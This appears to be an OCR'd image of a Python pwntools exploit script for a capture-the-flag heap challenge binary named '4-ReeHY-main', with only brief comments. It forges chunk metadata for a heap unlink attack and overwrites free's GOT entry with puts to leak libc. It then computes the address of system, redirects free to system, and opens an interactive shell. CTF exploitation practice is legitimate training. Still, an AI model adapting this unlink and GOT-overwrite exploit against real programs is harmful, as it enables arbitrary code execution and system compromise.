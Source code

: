 ```

# point to chunk3 data
ptr = 0x0602100

# raw_input()
# add two chunk chunk0,chunk1 and then freed
addexp(0x100,0,'test11') 
addexp(0x100,1,'test22')

pause()
# raw_input()
delexp(0) 
delexp(1)
pause()
# malloc a big chunk---chunk2,which chould be used to unlink chunk1,because the second malloc didn't put it to null
# it should be pay attention to *(ptr-0x18)=0x100 , somewhere should set to 0x100, but fd->pre_size = 0 ,don't know why chould not unlink 
# but it seem that the size is not importance,the chunk 1 corresponding to chunk 2.
ShellSend = p64(0)+p64(0x100)+p64(ptr-0x18)+p64(ptr-0x10)+'a'*(0x100-32)+p64(0x100)+p64(0x110) 
addexp(0x210,2,ShellSend)
pause()
delexp(1)

# get one point should be edit
# libc = ELF('ctflibc.so.6') 
elf = ELF('4-ReeHY-main')
libc = elf.libc

plt_puts = elf.symbols['puts'] 
got_puts = elf.got['puts'] 
got_free = elf.got['free']


# edit the chunk0's contant,and then it point to ptr-0x18,which can use to edit anyaddrs
# set the free addrs to plt_puts,and free(1) to print got_puts's addr
ShellSend = p64(0)+p64(got_puts)+p64(1)+p64(got_free)+p64(1) 
editexp(2,ShellSend)
pause()
# the \n will overflower one byte , so it should remove the \n when send this payload.
editexp2(2,p64(plt_puts)) 
delexp(1) 
puts_addr = u64(conn.recv(6)+'\x00'*2) 
print "puts_addr=" + hex(puts_addr) 
system_addr = puts_addr-(libc.symbols['puts']-libc.symbols['system']) 
print "system_addr=" + hex(system_addr)

# edit free --> system
editexp2(2,p64(system_addr))

# free 3 --> execution the system.
delexp(4) 
conn.interactive()
```
